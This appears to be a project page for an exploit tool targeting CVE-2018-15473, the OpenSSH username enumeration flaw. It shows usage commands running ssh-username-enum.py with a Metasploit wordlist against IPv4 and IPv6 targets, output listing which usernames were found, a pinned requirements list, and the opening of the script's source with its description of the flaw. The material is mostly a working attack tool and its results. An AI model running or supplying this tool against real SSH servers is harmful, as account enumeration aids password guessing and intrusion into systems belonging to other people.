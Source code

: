 Use a wordlist with 10 threads (the default is 4)


```python
(cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
[+] avahi found!
[+] avahi-autoipd found!
[+] backup found!
[+] daemon found!
[+] bin found!
------8<------
```

IPv6 Address on port 2222 and INCREASED VERBOSITY!


```python
(cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
[-] 4Dgifts not found
[-] demo not found
[-] checkfs not found
[-] anon not found
[-] EZsetup not found
[-] auditor not found
[-] demos not found
[-] OutOfBox not found
[-] checkfsys not found
[+] avahi found!
[-] diag not found
[-] ROOT not found
[-] checksys not found
[-] cmwlogin not found
[+] avahi-autoipd found!
------8<------
```

**requirements.txt**

* asn1crypto==0.24.0
* bcrypt==3.1.4
* cffi==1.11.5
* cryptography==2.3.1
* idna==2.7
* paramiko==2.4.1
* pyasn1==0.4.4
* pycparser==2.18
* PyNaCl==1.2.1
* six==1.11.0


```python
#!/usr/bin/env python3
"""
derived from work done by Matthew Daley
https://bugfuzz.com/stuff/ssh-check-username.py
props to Justin Gardner for the add_boolean workaround
CVE-2018-15473
--------------
OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an
invalid authenticating user until after the packet containing the request has been fully parsed, related to
auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c.
Author: epi
    https://epi052.gitlab.io/notes-to-self/
    https://gitlab.com/epi052/cve-2018-15473
"""
import sys
```